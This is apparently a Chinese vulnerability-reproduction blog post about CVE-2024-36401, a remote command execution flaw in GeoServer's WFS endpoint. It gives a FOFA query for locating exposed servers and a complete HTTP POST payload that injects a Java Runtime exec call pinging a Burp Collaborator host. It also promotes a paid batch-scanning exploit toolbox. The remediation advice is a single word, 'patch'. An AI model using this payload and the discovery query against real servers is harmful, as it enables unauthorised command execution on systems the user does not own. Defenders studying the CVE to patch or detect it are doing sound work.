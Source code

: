 #  GeoServer /geoserver/wfs接口存在远程命令执行漏洞 附POC   
南风漏洞复现文库  南风漏洞复现文库   2024-07-09 23:32  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. GeoServer /geoserver/wfs接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
GeoServer 是一个开源的地理空间服务器  
## 2.漏洞描述  
  
GeoServer是OGC Web服务器规范的J2EE实现，利用GeoServer可以方便地发布地图数据，允许用户对要素数据进行更新、删除、插入操作，通过GeoServer可以比较容易地在用户之间迅速共享空间地理信息。GeoServer /geoserver/wfs接口存在远程命令执行漏洞  
  
CVE编号:CVE-2024-36401  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
GeoServer  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsqJc5KpaSRgfiaZ9ZVWPqVIlpsvM513M5mUCIJc91nXrMyicXBo3lduEibg/640?wx_fmt=jpeg&from=appmsg "null")  
  
GeoServer /geoserver/wfs接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
app="GeoServer"  
## 5.漏洞复现  
  
漏洞链接：http://xxx.xxx.xx.xx/geoserver/wfs  
  
漏洞数据包：  
```
POST /geoserver/wfs HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent:Mozilla/5.0(X11;Linux x86_64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/87.0.4280.88Safari/537.36
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Content-Length: 362

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'
valueReference='exec(java.lang.Runtime.getRuntime(),"ping 876268.okcfke24wzvpm2c1uyqdbfa3iuokc9.burpcollaborator.net")'>
<wfs:Query typeNames='topp:states'/>
</wfs:GetPropertyValue>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsqticXRkx6b4T2icQ81aiaqgaPbxsgu02hu6wOp7SIC5cFucW0qc2yoUOJA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsqnJU1UGfkD8oVpeGPNN6oI2fzXIyMHZzFONZiaqib2X06FMGnIf7ow6YQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsqPIuH3Ofcb99J86CGMz3ibgHVgiccOmR0fJh2ZB3tibURtA85zn6icOoXsw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsqMAndeg0BOGSbtdTU5iaeWdricyFDx4Johibh9dpU0urbd0biazyL2BXJicQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsq6EpQhx304AErV3j3e9Ucpic8O05AXia1LgCVxDg6v79dCgL1TibPAHQ0Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHWpfNOJ5TtanoaTvXsYsqOsLNYkc0XDbfk8kicJqlgMcgBc23xsWibjLZlXOVdVOWgUeeNfKeicMFw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[用友U8-Cloud smartweb2.showRPCLoadingTip.d接口存在XXE 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486692&idx=1&sn=486b4add44d42aff4f12c423a7183fa5&chksm=974b81e3a03c08f5ea8fc5bf684f33e16112197b237c274a4c3fe652e00b8c6b520f83a3cd26&scene=21#wechat_redirect)  
  
  
